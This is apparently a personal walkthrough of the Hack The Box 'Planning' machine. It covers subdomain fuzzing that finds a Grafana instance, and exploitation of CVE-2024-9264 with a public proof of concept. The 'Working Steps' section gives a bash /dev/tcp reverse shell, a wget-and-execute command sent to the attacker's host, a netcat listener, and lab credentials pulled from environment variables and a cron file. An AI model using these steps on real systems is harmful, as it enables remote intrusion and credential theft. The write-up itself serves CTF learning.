 # NMAP Scan
- Port 22 and 80 --> planning.htb added to `etc/hosts`

# Gobuster 
## File scan
```
┌──(root㉿kali)-[/usr/share/wordlists/seclists/Discovery/Web-Content]
└─# gobuster dir -u planning.htb -w common.txt                                                                                                                         
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://planning.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 178] [--> http://planning.htb/css/]
/img                  (Status: 301) [Size: 178] [--> http://planning.htb/img/]
/index.php            (Status: 200) [Size: 23914]
/js                   (Status: 301) [Size: 178] [--> http://planning.htb/js/]
/lib                  (Status: 301) [Size: 178] [--> http://planning.htb/lib/]
Progress: 4744 / 4745 (99.98%)
```
## DNS Scan
```
┌──(root㉿kali)-[/usr/share/wordlists/seclists/Discovery/DNS]
└─# gobuster dns -d planning.htb -w bitquark-subdomains-top100000.txt -t 100
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     planning.htb
[+] Threads:    100
[+] Timeout:    1s
[+] Wordlist:   bitquark-subdomains-top100000.txt
===============================================================
Starting gobuster in DNS enumeration mode
===============================================================
Progress: 100000 / 100001 (100.00%)
===============================================================
Finished
===============================================================

```
# Ffuf
## File scan
```
┌──(root㉿kali)-[/usr/share/wordlists/seclists/Discovery/Web-Content]
└─# ffuf -u http://planning.htb/FUZZ -w common.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://planning.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

css                     [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 205ms]
img                     [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 204ms]
index.php               [Status: 200, Size: 23914, Words: 8236, Lines: 421, Duration: 204ms]
js                      [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 181ms]
lib                     [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 205ms]
:: Progress: [4744/4744] :: Job [1/1] :: 195 req/sec :: Duration: [0:00:25] :: Errors: 0 ::

```
## DNS Scan
```
┌──(root㉿kali)-[/usr/share/wordlists/seclists/Discovery/DNS]
└─# ffuf -w bitquark-subdomains-top100000.txt -u http://planning.htb/ -H "Host: FUZZ.planning.htb" -t 150 -mc all -fs 178                                              

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://planning.htb/
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
 :: Header           : Host: FUZZ.planning.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 150
 :: Matcher          : Response status: all
 :: Filter           : Response size: 178
________________________________________________

grafana                 [Status: 302, Size: 29, Words: 2, Lines: 3, Duration: 179ms]
:: Progress: [100000/100000] :: Job [1/1] :: 626 req/sec :: Duration: [0:02:17] :: Errors: 0 ::

```
# SSH
```
┌──(root㉿kali)-[/usr/share/wordlists/seclists/Discovery/Web-Content]
└─# ssh admin@10.10.11.68
The authenticity of host '10.10.11.68 (10.10.11.68)' can't be established.
ED25519 key fingerprint is SHA256:iDzE/TIlpufckTmVF0INRVDXUEu/k2y3KbqA/NDvRXw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.68' (ED25519) to the list of known hosts.
admin@10.10.11.68's password: 
Permission denied, please try again.
```
Provided creds don't seem to work against SSH

# Working Steps
- Added grafana to etc/hosts
- Provided creds work in Grafana portal
- Page source is saying Grafana v11.0.0
- CVE: `https://github.com/nollium/CVE-2024-9264`
- Made virtual environment:
```
# Create a virtual environment
python3 -m venv venv

# Activate the virtual environment
source venv/bin/activate
```
- Installed `requirements.txt` with `pip install -r requirements.txt` in venv
-  Made a basic reverse shell file:
```
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.5/4444 0>&1`
```
- Started serving file on port 8000 with: `python3 -m http.server 8000`
- Started listening for reverse shell with: `nc -lvnp 4444`
- Used exploit with `python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "wget http://10.10.14.5:8000/basic_bash_reverse_shell_p4444.sh -O /tmp/basic_bash_reverse_shell_p4444.sh && chmod +x /tmp/basic_bash_reverse_shell_p4444.sh && /tmp/basic_bash_reverse_shell_p4444.sh" http://grafana.planning.htb`
- Reverse shell allowed me to find creds in /var/lib/grafana/ by running `env` in that path:
```
root@7ce659d667d7:/var/lib/grafana# env
env
AWS_AUTH_SESSION_DURATION=15m
HOSTNAME=7ce659d667d7
PWD=/var/lib/grafana
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_HOME=/usr/share/grafana
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
HOME=/usr/share/grafana
AWS_AUTH_EXTERNAL_ID=
SHLVL=2
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_LOGS=/var/log/grafana
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
OLDPWD=/var/lib
_=/usr/bin/env
root@7ce659d667d7:/var/lib/grafana# 
```
- Login via SSH with new found creds: `ssh enzo@10.10.11.68` there you find `user.txt` with the user flag.
- Looked in `/opt/` for cronjobs and find crontabs.db with a password:
```
enzo@planning:/opt/crontabs$ cat crontab.db 
{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}
{"name":"Cleanup","command":"/root/scripts/cleanup.sh","schedule":"* * * * *","stopped":false,"timestamp":"Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740849309992,"saved":false,"_id":"gNIRXh1WIc9K7BYX"}
```

# Lessons
- Assume the worst - double check results with different tools and different wordlists. And use the biggest one available to you but also a different one altogether. This box required the bitquark txt one to find the `grafana` subdomain when none other had that keyword needed for this challenge
- Ffuf found the subdomain with the wordlist but gobuster didnt even when i experimented with different threads (`-t`):(
